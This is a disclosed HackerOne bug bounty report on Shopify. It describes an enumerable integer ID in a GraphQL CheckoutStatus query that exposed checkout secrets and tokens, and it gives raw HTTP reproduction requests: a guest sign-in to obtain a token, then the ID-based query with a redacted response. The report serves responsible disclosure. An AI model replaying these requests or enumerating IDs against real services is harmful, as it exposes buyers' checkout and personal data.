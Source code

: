 # Informations disclosure - Access to some checkout informations

## Report Details
- **Report ID**: 1064869
- **URL**: https://hackerone.com/reports/1064869
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-12-22T23:45:25.797Z
- **Disclosed**: 2021-03-13T00:51:20.556Z

## Reporter
- **Username**: imgnotfound
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
It came to my attention that using the **CheckoutStatus** query on `https://arrive-server.shopifycloud.com/graphql` it is possible to access some checkout details, specifically the query can be called with an ID value ranging from `1` up to `48908`. 

Unfortunately, as I could not figure out how to create a new `CheckoutStatus` on my own, I won't be able to dig deeper. I've tried to create a new order on my own shops and when accessing the next ID (48909), it is still returning nothing. 

That said, an explanation could either be that the **CheckoutStatus** query isn't used anymore thus only returning "legacy" orders or simply that the `id` property type has been changed from an Integer to an unpredictable one (i.e.: UUID).

## Steps to reproduce

.1. Make the following request

```
POST /graphql HTTP/1.1
Host: arrive-server.shopifycloud.com
Accept: */*
If-None-Match: W/"9753ba99576a2d7d3e7e0331a16c5b8e"
Accept-Language: en-ca
Content-Type: application/json
Content-Length: 230
User-Agent: Shop/2.15.4-release+377 ios/14.2
Connection: close

{"operationName":"SignInAsGuest","variables":{},"query":"mutation SignInAsGuest {\n  signInAsGuest {\n    authPayload {\n      accessToken\n      refreshToken\n    }\n    userErrors {\n      field\n      message\n    }\n  }\n}\n"}
```

.2. From the returned payload, copy the `accessToken` value
.3. Make the following request, by making sure to replace the {accessToken} placeholder with the previous step `accessToken` value

```
POST /graphql HTTP/1.1
Host: arrive-server.shopifycloud.com
Accept: */*
Authorization: Bearer {accessToken}
Accept-Encoding: gzip, deflate
If-None-Match: W/"5ebae03d57dd7da47f078e11e3cfc0db"
Accept-Language: en-ca
Content-Type: application/json
Content-Length: 348
User-Agent: Shop/2.15.4-release+377 ios/14.2
Connection: close

{"operationName":"CheckoutStatus","variables":{"id":"48805"  },"query":"query CheckoutStatus($id: ID!) {\n  checkoutStatus(id: $id) {\n    ... on Checkout {\n      id\n      isShopPay\n      payJsonParams\n      status\n      token\n      url\n      errorCode\n    }\n    ... on PollingInfo {\n      waitMillis\n      shouldRetry\n    }\n  }\n}\n"}
```

**Response**
```
{"data":{"checkoutStatus":{"id":"48805","isShopPay":true,"payJsonParams":"{\"transaction_params\":\"checkout_secret=███\\u0026encrypted_params=███\\u0026locale=en\",\"token\":\"█████████\",\"origin\":\"shop_app\",\"shopify_domain\":\"sunday-citizen.myshopify.com\",\"checkout_token\":\"████████\"}","status":"created","token":"████████","url":"https://shop.app/pay/session","errorCode":null}}}
```
By looking at the returned response, specifically the `payJsonParams` property, it should then be possible to access the checkout page as the checkout secret and token are being returned. Therefore, we should get access to the buyer's email  and probably even more informations if the purchase has been completed.

## Impact

Access to some checkout informations

## Attachments
No attachments
